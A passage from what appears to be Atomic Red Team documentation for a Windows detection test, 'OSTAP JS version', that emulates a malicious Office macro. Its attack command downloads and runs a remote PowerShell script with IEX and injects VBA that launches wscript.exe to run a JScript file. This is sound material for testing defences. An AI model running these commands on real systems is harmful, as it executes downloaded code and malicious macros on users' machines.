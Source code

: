 

#### Dependencies:  Run with `powershell`!
##### Description: Test Requires MS Office to be installed and have been run previously. Run -GetPrereqs to run msword and build dependant registry keys
##### Check Prereq Commands:
```powershell
$ms_office_version = #{ms_office_version}
If (Test-Path HKCU:SOFTWARE\Microsoft\Office\$ms_office_version) { exit 0 } else { exit 1 } 
```
##### Get Prereq Commands:
```powershell
$msword = New-Object -ComObject word.application
Stop-Process -Name WINWORD
```




<br/>
<br/>

## Atomic Test #4 - OSTAP JS version
Malicious JavaScript executing CMD which spawns wscript.exe //e:jscript
Execution is handled by [Invoke-MalDoc](https://github.com/redcanaryco/invoke-atomicredteam/blob/master/Public/Invoke-MalDoc.ps1) to load and execute VBA code into Excel or Word documents.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| jse_path | jse file to execute with wscript | Path | C:&#92;Users&#92;Public&#92;art.jse|
| ms_product | Maldoc application Word or Excel | String | Word|
| ms_office_version | Microsoft Office version number found in "HKEY_CURRENT_USER&#92;SOFTWARE&#92;Microsoft&#92;Office". Default latest version. | String | ((Get-ChildItem Registry::HKEY_CURRENT_USER&#92;Software&#92;Microsoft&#92;Office -Name | select-string -pattern "^&#92;d+&#92;.&#92;d+$").line.foreach({[decimal]$_}) | Sort-Object -desc)|


#### Attack Commands: Run with `powershell`! 


```powershell
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-MalDoc.ps1")
$ms_office_version = #{ms_office_version}
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   a = Shell(`"cmd.exe /c wscript.exe //E:jscript #{jse_path}`", vbNormalFocus)`n"
Invoke-MalDoc $macrocode "$ms_office_version" "#{ms_product}"
```

#### Cleanup Commands:
```powershell
$ms_office_version = #{ms_office_version}
if (Test-Path #{jse_path}) { Remove-Item #{jse_path} }
Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Office\$ms_office_version\#{ms_product}\Security\' -Name 'AccessVBOM' -ErrorAction Ignore
```
